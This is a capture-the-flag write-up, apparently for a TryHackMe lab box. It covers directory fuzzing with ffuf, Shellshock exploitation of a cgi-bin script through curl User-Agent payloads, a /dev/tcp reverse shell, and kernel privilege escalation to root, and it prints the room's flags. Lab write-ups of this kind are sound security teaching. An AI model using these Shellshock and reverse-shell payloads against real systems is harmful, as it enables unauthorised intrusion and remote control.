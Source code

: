 ﻿# ENUMERATION
---



## OPEN PORTS
---


| PORT | SERVICE |
| :--- | :------ |
| 22 | SSH |
| 80 | HTTP |



# RECONNAISSANCE
---


![Pasted image 20250429135028.png](../../IMAGES/Pasted%20image%2020250429135028.png)

Let's fuzz:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.214.142/FUZZ" -ic -c -t 200 -e .php,.html,.git

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : GET
 :: URL : http://10.10.214.142/FUZZ
 :: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions : .php .html .git
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

index.html [Status: 200, Size: 3025, Words: 285, Lines: 43, Duration: 284ms]
.html [Status: 403, Size: 285, Words: 21, Lines: 11, Duration: 285ms]
 [Status: 200, Size: 3025, Words: 285, Lines: 43, Duration: 285ms]
uploads [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 162ms]
img [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 933ms]
cgi-bin [Status: 301, Size: 315, Words: 20, Lines: 10, Duration: 933ms]
admin [Status: 301, Size: 313, Words: 20, Lines: 10, Duration: 160ms]
css [Status: 301, Size: 311, Words: 20, Lines: 10, Duration: 163ms]
js [Status: 301, Size: 310, Words: 20, Lines: 10, Duration: 160ms]
backup [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 159ms]
secret [Status: 301, Size: 314, Words: 20, Lines: 10, Duration: 159ms]
```


We got some interesting findings like `backup, secret` and `cgi-bin` let's check the first two:

![Pasted image 20250429140047.png](../../IMAGES/Pasted%20image%2020250429140047.png)

There's an `id_rsa` key on here, we don't have the username so, let's simply save it for now, let's proceed to `secret`:


![Pasted image 20250429140228.png](../../IMAGES/Pasted%20image%2020250429140228.png)

I tried getting some info with `steghide` but no luck, let's proceed then with `cgi-bin`, a`cgi-bin` directory often indicates the presence of legacy CGI (Common Gateway Interface) scripts, which can be vulnerable to attacks like **Shellshock**, **command injection**, or **path traversal** if poorly coded. 

Let's try `shellshock`, this vulnerability allows remote code execution without confirmation. A series of random characters, `() { :; }; ,` confuses Bash because it doesn't know what to do with them, so by default, it executes the code after it.

We need to fuzz the directory to find the script inside of it:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt:FUZZ -u "http://10.10.214.142/cgi-bin/FUZZ" -ic -c -t 200 -e .cgi

 /'___\ /'___\ /'___\
 /\ \__/ /\ \__/ __ __ /\ \__/
 \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
 \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
 \ \_\ \ \_\ \ \____/ \ \_\
 \/_/ \/_/ \/___/ \/_/

 v2.1.0-dev
________________________________________________

 :: Method : GET
 :: URL : http://10.10.214.142/cgi-bin/FUZZ
 :: Wordlist : FUZZ: /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-small.txt
 :: Extensions : .cgi
 :: Follow redirects : false
 :: Calibration : false
 :: Timeout : 10
 :: Threads : 200
 :: Matcher : Response status: 200-299,301,302,307,401,403,405,500
________________________________________________

test.cgi [Status: 200, Size: 13, Words: 2, Lines: 2, Duration: 163ms]
```

There we go, let's proceed with exploitation.




# EXPLOITATION
---

With this, we can start the `shellshock` attack, let's test it:

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'id'" http://10.10.214.142/cgi-bin/test.cgi
```

![Pasted image 20250429140729.png](../../IMAGES/Pasted%20image%2020250429140729.png)

There we go, `shellshock` attack works, let's get a shell then:

```bash
curl -H "User-Agent: () { :;}; echo; /bin/bash -c 'sh -i >& /dev/tcp/IP/9001 0>&1'" http://10.10.214.142/cgi-bin/test.cgi
```


![Pasted image 20250429140854.png](../../IMAGES/Pasted%20image%2020250429140854.png)


We can proceed with privilege escalation.



# PRIVILEGE ESCALATION
---


Let's stabilize our shell first:

```
python3 -c 'import pty;pty.spawn("/bin/bash")'
/usr/bin/script -qc /bin/bash /dev/null
CTRL + Z
stty raw -echo; fg
reset xterm
export TERM=xterm
export BASH=bash
```

![Pasted image 20250429141002.png](../../IMAGES/Pasted%20image%2020250429141002.png)

Let's use `linpeas` to look for any `PE` vector:


![Pasted image 20250429142332.png](../../IMAGES/Pasted%20image%2020250429142332.png)

As seen, we are dealing with a `3.13.0-32-generic` Linux version, let's search information about how to escalate privileges in it:

![Pasted image 20250429142418.png](../../IMAGES/Pasted%20image%2020250429142418.png)

There's a `c` exploit we can get, once we get it on our victim machine, we can do the following:

```
gcc pe.c -o pe
```

If we try compiling it, we get this error:

```
www-data@ubuntu:/tmp$ gcc pe.c -o privesc
gcc: error trying to exec 'cc1': execvp: No such file or directory
```

This is a problem in the `PATH`, we can fix it with:

```bash
export PATH=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin
```

Now, let's compile again:

```
gcc pe.c -o pe
```

![Pasted image 20250429143345.png](../../IMAGES/Pasted%20image%2020250429143345.png)

There we go, we can simply run it now:

![Pasted image 20250429143408.png](../../IMAGES/Pasted%20image%2020250429143408.png)

We are root now and can finally read both flags:

```
# cat /home/ryan/user.txt
THM{Sh3llSh0ck_r0ckz}
```

```
# cat /root/root.txt
THM{g00d_j0b_0day_is_Pleased}
```

![Pasted image 20250429143558.png](../../IMAGES/Pasted%20image%2020250429143558.png)

